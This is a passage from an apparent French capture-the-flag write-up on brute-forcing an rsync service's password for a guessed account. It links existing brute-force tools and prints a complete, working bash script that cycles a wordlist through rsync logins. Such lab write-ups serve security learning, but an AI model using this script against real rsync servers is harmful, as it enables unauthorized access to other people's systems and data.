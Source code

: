 Il est clairement question de mot de passe faible... Reste à savoir pour quel account. Même si ce n'est pas 100% clair pour moi j'ai supposé que le compte est `sabulaji`.

J'ai d'abord voulu utiliser le script Nmap `rsync-brute.nse` mais malgré plusieurs tentatives, je n'y suis pas parvenu.

Bizarrement ni Hydra, ni Ncrack, ni Medusa ne gèrent rsync ce qui est un peu fort pour un vieux proto Unix.

Sur Github, j'ai trouvé deux projets intéressants :

[GitHub - nonsleepr/rsyncbrute: An Rsync password brute-forcer in Go](https://github.com/nonsleepr/rsyncbrute)

[GitHub - ZyperX/rsync_bruteforcer: Rsync service bruteforcer](https://github.com/ZyperX/rsync_bruteforcer/tree/master)

Celui en Go est sans doute rapide, mais on ne sait pas trop quelles versions de rsync il gère.

Celui en Python est sans doute plus fiable, mais j'ai remarqué différents problèmes :
- trop d'output qui ralenti le programme
- lecture du fichier dictionnaire en une seule fois au lieu de ligne par ligne

J'ai donc adapté :

```bash
#!/bin/bash

if [ $# -lt 5 ]; then
    echo -e "\e[34mSyntax : ./rsync_brute.sh <username> <ip> <port> <wordlist> <module_directory>\e[0m"
    exit 1
fi

username=$1
ip=$2
port=$3
wordlist=$4
module=$5

count=0

while IFS= read -r password; do
    count=$((count + 1))
    
    export RSYNC_PASSWORD="$password"
    
    if rsync --contimeout=3 --port="$port" "rsync://$username@$ip/$module" > /dev/null 2>&1; then
        echo -e "\n[+] Password found: $password"
        exit 0
    fi

    if (( count % 5000 == 0 )); then
        echo "[*] $count passwords tried..."
    fi
done < "$wordlist"

echo "[!] Password not found after $count attempts."
```
